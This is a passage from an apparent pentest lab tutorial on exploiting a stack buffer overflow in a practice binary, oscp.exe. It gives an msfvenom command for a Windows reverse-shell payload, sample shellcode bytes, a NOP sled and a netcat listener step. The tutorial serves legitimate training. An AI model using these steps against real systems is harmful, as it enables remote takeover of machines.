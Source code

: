 Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:
```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d")
```
### Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:
```
padding = "\x90" * 16
```
### Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!

## Credits
* Tib3rius (https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
